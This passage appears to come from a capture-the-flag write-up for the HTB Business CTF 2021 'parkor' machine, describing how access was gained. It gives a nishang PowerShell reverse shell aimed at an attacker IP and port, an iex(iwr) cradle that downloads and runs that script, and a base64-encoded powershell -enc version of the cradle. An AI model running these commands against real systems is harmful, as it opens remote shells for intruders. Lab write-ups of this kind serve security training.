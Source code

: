 ![RCE](/assets/images/htbbiz2021-parkor/whoami.png)

# Gaining Access
we will upload nishang reverse shell `/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1`, add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.172 -Port 4444` on the script.

use this command `iex(iwr -usebasicparsing http://10.10.14.172/Invoke-PowerShellTcp.ps1)` encode using [https://raikia.com/tool-powershell-encoder/](https://raikia.com/tool-powershell-encoder/)

and our poweshell script
```powershell
powershell -enc aQBlAHgAKABpAHcAcgAgAC0AdQBzAGUAYgBhAHMAaQBjAHAAYQByAHMAaQBuAGcAIABoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEANwAyAC8ASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwAC4AcABzADEAKQA=
```
![PowerShell](/assets/images/htbbiz2021-parkor/powershell_nishang.png)
